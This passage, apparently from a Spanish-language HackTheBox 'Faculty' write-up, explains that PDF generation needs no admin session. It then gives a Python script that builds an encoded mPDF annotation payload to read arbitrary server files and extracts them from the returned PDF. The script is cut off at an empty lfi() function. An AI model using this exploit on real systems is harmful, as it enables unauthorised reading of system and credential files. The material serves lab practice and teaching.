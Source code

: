 ## Automating the Local File Inclusion
Como el LFI es un poco tedioso, vamos a scriptearlo con Python.

Mientras estaba scripteando el LFI, me dí cuenta de que no se necesita una cookie de sesión como administrador para generar el PDF. Esto aumentaría la criticidad de la vulnerabilidad ya que podríamos conseguir LFI sin estar autenticados.

Este es el script
```python
#!/usr/bin/python3
import requests
from urllib.parse import quote
from base64 import b64encode
import PyPDF2
from PyPDF2 import PdfReader
import signal
import os

URL = "http://faculty.htb/admin/download.php"
PDF_URL = "http://faculty.htb/mpdf/tmp/<FILENAME>"

def def_handler(x,y):
    print("[!] Saliendo")
    os.system("rm temp.pdf")
    exit(1)

signal.signal(signal.SIGINT,def_handler)

def extract_attachment_from_pdf(pdf_file):
    with open(pdf_file, "rb") as f:
        reader = PdfReader(f)

        for page_num, page in enumerate(reader.pages):
            if '/Annots' in page:
                annotations = page['/Annots']
                for annot in annotations:
                    annot_obj = annot.get_object()
                    if '/Subtype' in annot_obj and annot_obj['/Subtype'] == '/FileAttachment':
                        file_spec = annot_obj['/FS']
                        embedded_file = file_spec['/EF']['/F']
                        file_data = embedded_file.get_data()
                        file_name = file_spec['/F']
                        
                        # Mostramos el contenido
                        print(file_data.decode('utf-8'))

def payload_gen(fname):
    payload = f'<annotation file="{fname}" content="{fname}" icon="Graph" title="Attached File: {fname}" pos-x="195" />'
    encoded_payload = quote(payload)
    base64enc = b64encode(encoded_payload.encode())
    return base64enc

def do_request(file):
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = {
        "pdf": payload_gen(file)
    }
    r = requests.post(URL, headers=headers, data=data)
    return r.text.strip()

def lfi():
```